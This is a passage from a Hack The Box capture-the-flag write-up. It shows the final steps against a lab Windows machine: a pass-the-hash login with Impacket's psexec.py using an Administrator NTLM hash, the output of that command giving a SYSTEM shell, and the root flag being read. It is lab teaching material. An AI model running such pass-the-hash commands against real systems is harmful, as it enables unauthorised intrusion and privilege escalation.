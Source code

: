 ### Getting a shell

The blog at [https://en.hackndo.com/pass-the-hash/](https://en.hackndo.com/pass-the-hash/) has a nice write-up on how and why pass-the-hash attacks work.  I used the `psexec.py` tool from Impacket's examples, though there are many tools for doing this attack against Windows.  

```text
zweilos@kalimaa:~/impacket/examples$ sudo python3 psexec.py -hashes :d9485863c1e9e05851aa40cbb4ab9dff Administrator@10.10.10.175
Impacket v0.9.22.dev1+20200520.120526.3f1e7ddd - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.175.....
[*] Found writable share ADMIN$
[*] Uploading file useqULkm.exe
[*] Opening SVCManager on 10.10.10.175.....
[*] Creating service hsLI on 10.10.10.175.....
[*] Starting service hsLI.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.973]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

Not only did this tool log me in, but it also elevated my privilege to `nt authority\system`!

### Root.txt

The final thing to do after gaining full control over this machine was to get my proof. 

```text
C:\Windows\system32>cat C:\users\administrator\desktop\root.txt

f3ee04965c68257382e31502cc5e881f
```

Thanks to [egotisticalSW](https://app.hackthebox.eu/users/94858) for creating this fun and easy Windows machine.  It offered a few chances to learn some new things while giving the opportunity to brush up on Windows enumeration skills.

If you have comments, issues, or other feedback, or have any other fun or useful tips or tricks to share, feel free to contact me on Github at [https://github.com/zweilosec](https://github.com/zweilosec) or in the comments below!

If you like this content and would like to see more, please consider buying me a coffee! <a href="https://www.buymeacoffee.com/zweilosec"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me a coffee&emoji=&slug=zweilosec&button_colour=FFDD00&font_colour=000000&font_family=Lato&outline_colour=000000&coffee_colour=ffffff"></a>